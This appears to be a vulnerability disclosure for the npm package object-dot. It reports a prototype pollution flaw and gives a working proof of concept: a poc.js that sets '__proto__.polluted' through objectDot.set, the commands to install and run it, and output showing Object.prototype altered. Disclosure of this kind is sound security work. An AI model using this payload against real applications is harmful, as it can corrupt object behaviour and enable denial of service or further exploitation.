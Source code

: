 # Description

`object-dot` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC file:

```
// poc.js
var objectDot = require("object-dot")
var obj = {}
console.log("Before : " + {}.polluted);
objectDot.set(obj, '__proto__.polluted', 'Yes! Its Polluted');
console.log("After : " + {}.polluted);
```


2. Execute the following commands in terminal:

```
npm i object-dot # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
